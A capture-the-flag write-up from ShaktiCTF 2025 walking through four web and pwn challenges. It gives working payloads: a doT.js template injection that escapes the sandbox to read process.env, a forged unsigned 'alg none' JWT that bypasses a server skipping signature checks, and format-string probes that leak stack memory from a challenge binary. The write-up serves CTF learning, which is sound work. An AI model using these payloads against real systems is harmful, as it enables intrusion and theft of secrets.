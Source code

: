 ```yaml
---
title: "ShaktiCTF | 2025 | Writeups"
description: "A Jeopardy style online Capture The Flag competition to upbring and promote women in the industry."
pubDate: "2025-07-30"
---
```


**Templateception — Web**
----

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*jec9C57A3TBJI4YsjkGrkg.png)

Source Code Analysis
--------------------

We’re given the Node.js backend which does the following:

*   Accepts a filename, template (doT), and config via POST to `/upload`.
*   Saves the template, and renders it later at `/render/:file`.
*   Passes `{ name: "CTF Player" }` as the rendering context for templates.
*   Also renders the flag using EJS like this:
*   `res.render('rendered', { output, flag })`

The rendered HTML includes:

```
<pre><%= output %></pre>  
<script>  
  var FLAG = "<%= flag %>";  
</script>
```

So, the flag **isn’t rendered directly** — it’s only accessible as a JavaScript variable called `FLAG`.

The templating engine used is `doT.js`, which supports JavaScript execution inside templates.  
We can inject arbitrary JavaScript by using this pattern:

```
{{=this.constructor.constructor("/* JS here */")()}}
```

This effectively breaks the sandbox and gives us access to Node internals, including environment variables!

To read the environment variable where the flag is stored, we submit the following as the template:

```
{{=this.constructor.constructor("return process.env")().FLAG}}
```

**Config:**

```
{}
```

**Filename:** `exploit.dot` (any name works)

Visiting `/render/exploit.dot` rendered:

```
shaktictf{***********}
```

The flag was successfully read from the server’s environment using template injection!

---

**Hooman — Web**
----

![](https://miro.medium.com/v2/resize:fit:638/format:webp/1*eGVG25dEk90_z4EtVrrbig.png)

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ctafm64Hu8dfagcexTYo0Q.png)

We were asked to “prove” we’re a hooman to access `/hooman`, which reveals the flag. The server gives us a JWT after login, but it always has:

```
{  
  "are_you_hooman": false  
}
```

And the `/hooman` route only lets us in if:

```
"are_you_hooman": true
```

In the backend, JWTs are decoded with **`verify_signature=False**`**:

```
jwt.decode(token, key=None, options={"verify_signature": False})
```

This means the server accepts **any token**, even unsigned ones.

We forged our own JWT:

```
Header:  {"alg": "none", "typ": "JWT"}  
Payload: {"username": "admin", "are_you_hooman": true}
```

Final token:

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXJlX3lvdV9ob29tYW4iOnRydWV9.
```

➡️ Set it as a cookie named `token`.

Visiting `/hooman` with the forged token reveals:

> shaktictf{<real\_flag>}

---

**Secret Mission — Pwn**
----

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*yWlOGJN8lc13tyokjI3wUQ.png)

> _Welcome to the Armed Detective Agency — the most famous detective agency in Yokohama!  
> A chest full of ability crystals has been lost somewhere in this binary.  
> Can you help us find it?_

We’re provided with an ELF binary: `mission`  
Running it connects us to a storyline, and prompts us with two questions:

*   Do you accept the mission? (Y/n)
*   What’s your name?

If we say “Y”, and give any input as a name(eg: h4ch3r)—it displays: Looking forward to working with you h4ch3r

Initial Recon:
--------------

```
$ file mission  
ELF 64-bit LSB pie executable, x86-64, dynamically linked, not stripped  
  
$ checksec --file=mission  
RELRO           STACK CANARY      NX            PIE       
Full RELRO      Canary found      NX enabled    PIE enabled
```

The binary has all major protections:  
PIE: enabled  
NX: enabled  
Canary: found

This points toward a **stack-based buffer overflow** or similar.

Fuzzing input:
--------------

```
$ python3 -c "print('Y\n' + 'A'*200)" | ./mission
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

Classic stack overflow confirmed.  
But because there’s a **stack canary**, overflowing won’t be trivial.

Let’s try a format string vulnerability instead:

```
$ python3 -c "print('Y\n' + '%p.'*20)" | ./mission  
...  
Looking forward to working with you 0x7ffe19f4e620.(nil).(nil).0xa....
```

It **echoes back** our name using `printf(name)`, NOT `printf("%s", name)`, which makes it vulnerable!

**Try it on the actual server:**

```
$ python3 -c "print('Y\n' + '%p.'*30)" | nc 43.205.113.100 8576
```

Output (trimmed):

```
Looking forward to working with you ...  
0x746369746b616873.0x58655f3368747b66.0x5f64337463407274.0x656974696c696240....
```

Python script to decode the hex values:

```
leaked = [  
    0x746369746b616873,  
    0x58655f3368747b66,  
    0x5f64337463407274,  
    0x656974696c696240,  
    0x6873316e40765f35,  
    0x3368745f7475625f,  
    0x33725f67406c665f,  
    0x7d736e31406d  
]  
  
s = b''.join(p.to_bytes(8, 'little') for p in leaked)  
print(s.decode(errors="ignore"))
```

Running this python code renders the flag.

---

**Let the TV Buffer — Pwn**
----

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*pIh8nh1nL05WpZ2Kk0skow.png)

> _The TV usually keeps buffering. It isn’t doing that now for some reason. I dunno why.  
> I need to show my cool TV fixing skills for the upcoming science fair!  
> I wonder what I can do to put it back to how it originally was…_

Running the binary locally:

```
./let_the_tv_buffer
```

Gives us:

```
Reply >>
```

After entering a long input:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

The binary responded:

```
The TV is back to buffering! Thanks!  
...wait. It is showing some sorta secret code.  
shaktictf{REDACTED}
```

---

You can check out more of my work here:

*   🔗 **GitHub:** [github.com/Bl0ss0mX5](https://github.com/Bl0ss0mX5)
*   🔗 **Medium:** [medium.com/@bl0ss0mx5](https://medium.com/@bl0ss0mx5)